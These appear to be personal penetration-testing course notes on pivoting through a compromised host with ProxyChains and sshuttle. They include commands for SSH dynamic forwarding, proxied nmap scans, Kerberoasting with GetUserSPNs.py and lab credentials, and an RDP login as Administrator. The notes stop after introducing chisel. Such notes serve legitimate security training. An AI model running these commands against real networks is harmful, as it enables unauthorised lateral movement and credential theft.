 So lets say we've compromised a machine, and that machine allows you access to 2 network interfaces, and those interfaces share a new network interface that was unavailable to us.

So, instead of downloading tools like [[Scanning with nmap|nmap]] on the compromised machine to access the other networks, we can set up a proxy and pivot through that to the other network

We can do pivoting with different tools. 

First tool we can use is called ProxyChains

To use it, first lets go to the ProxyChains config file:

```bash
cat /etc/proxychains4.conf
```

![[Pasted image 20240829232431.png]]

We would be binding to this port. It will be different for different machines(im using the one TCM is showing)

We can then run the following command:

```bash
ssh -f -N -D 9050 -i pivot root@<ip_we_have_access_to>
```

-i is identity connection, -f basically backgrounds the ssh. -N basically means we do not want to execute remote commands. This is only for forwarding ports. -D is basically where to bind the port.

Then we can use proxychains to run different commands from our attacking machine without actually using the compromised machine.

Some Examples:

```bash
proxychains nmap -p88 10.10.10.225
```

```bash
proxychains GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip 10.10.10.225 -request
```

Remember [[Kerberoasting]]??

```bash
proxychains xfreerdp /u:Administrator /p:'Hacker321!' /v:10.10.10.225
```

The other tool you can use is sshuttle.

This tool does not require you to set a proxy beforehand, it by default sets a proxy with this command:

```bash
sshuttle -r root@10.10.155.5 10.10.10.0/24 --ssh-cmd "ssh -i pivot"
```

And now we are connected with the network. The cool part about this is we dont have to type something like proxychains in front on every command. We can run anything as is as long as the above command is still running.

Another tool we can utilize is chizel.

